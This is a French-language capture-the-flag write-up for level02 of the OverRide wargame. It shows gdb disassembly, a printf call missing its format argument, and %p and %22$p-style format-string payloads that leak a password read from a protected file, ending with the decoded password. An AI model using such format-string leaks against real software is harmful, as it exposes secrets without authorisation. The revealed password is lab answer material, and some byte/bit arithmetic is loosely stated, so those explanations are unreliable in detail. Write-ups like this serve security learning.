 # Level 02

```
level02@OverRide:~$ ./level02
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: test
--[ Password: test
*****************************************
test does not have access!
```

Ce programme prend deux inputs.

Apres decompilation, nous constatons plusieurs choses, le fichier du pass est ouvert, puis est copie dans passwordFromFile.

Si le fichier ne peux etre lu, exit le programme.
Cette condition nous empeche de break dans gdb car faute de droits.

Puis les deux inputs sont copie respectivement dans username et password.

Une comparaison est faite entre le mot de passe du fichier et le mot de passe, et si identique ouvre un shell nais nous ne pouvons pas exploiter cette condition

Cependant le dernier printf qui affiche le nom d'utilisateur, a savoir username, est appele sans l'argument de format.

Nous allons pouvoir utiliser l'exploit format string, qui consiste a donner le format directement dans la chaine afin d'afficher des zones memoire.

Comme le contenu du fichier est copie dans une variable, nous sommes cense trouver son contenu en memoire. Cherchons dans gdb son emplacement.


Le desassemblage dans gdb etant long, seules les lignes interessantes sont gardes.
```
(gdb) disas main
Dump of assembler code for function main:
   0x0000000000400814 <+0>:     push   %rbp <=== la zone memoire ou le programme est charge est sur rbp.
   0x0000000000400815 <+1>:     mov    %rsp,%rbp
   0x0000000000400818 <+4>:     sub    $0x120,%rsp

   0x0000000000400909 <+245>:   lea    -0xa0(%rbp),%rax <== ici nous sommes juste apres l'appel de fread. le contenu du fichier est copie a rbp - 0xa0

   0x0000000000400a96 <+642>:   lea    -0x70(%rbp),%rax <== ici nous somme juste apres la comparaison du mot de passe et du contenu du fichier, on aligne le pointeur sur rbp - 0x70 car ici se trouve la variable username (username)

End of assembler dump.
```

Nous avons donc l'emplacement memoire de passwordFromFile et username.

Pour afficher la valeur avec printf, nous allons calculer l'offset du buffer de printf.

```
level02@OverRide:~$ ./level02
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: AAAA%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|
--[ Password: *****************************************
AAAA0x7fffffffe4f0|(nil)|0x7c|0x2a2a2a2a2a2a2a2a|0x2a2a2a2a2a2a2a2a|0x7fffffffe6e8|0x1f7ff9a08|0x257c70257c70257c|0x7c70257c70257c70|0x70257c70257c7025|0x257c70257c70257c|0x7c70257c70257c70|0x70257c70257c7025|0x257c70257c70257c|0x7c70257c70257c70|0x70257c70257c7025|0x257c70257c70257c|0x7c70257c70|(nil)|0x100000000|(nil)|0x756e505234376848|0x45414a3561733951|0x377a7143574e6758|0x354a35686e475873|0x48336750664b394d|0xfeff00|0x257c702541414141|0x7c70257c70257c70| does not have access!
```

41414141 se trouve a +28.

Les deux adresses sont espaces de 160(0xa0) - 112(0x70) = 48 bits.

Sachant que %p affiche 8bits nous devons divise 48 par 8 pour avoir la position du debut de la chaine.

28 - (48 / 8) = 22. Donc %22p doit etre le debut de la chaine, le mot de passe contient 41 - 1 caracteres (0x29 - 1("\0")), 40 / 8 = 5. Nous devons affiches 5 %p.

```
level02@OverRide:~$ ./level02
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: %22$p%23$p%24$p%25$p%26$p
--[ Password:
*****************************************
0x756e505234376848|0x45414a3561733951|0x377a7143574e6758|0x354a35686e475873|0x48336750664b394d does not have access!
```

Nous avons ce code ex hexadecimal, il nous faut convertir chaque bit en decimal, en enlevant d'abord les 0x et comme nous somme en endian, en commencant par la fin de chaque section.

48 68 37 34 52 50 6e 75 51 39 73 61 35 4a 41 45 58 67 4e 57 43 71 7a 37 73 58 47 6e 68 35 4a 35 4d 39 4b 66 50 67 33 48

On utilise dcode.fr pour convertir les valeurs (codage unicode) et nous trouvons : Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H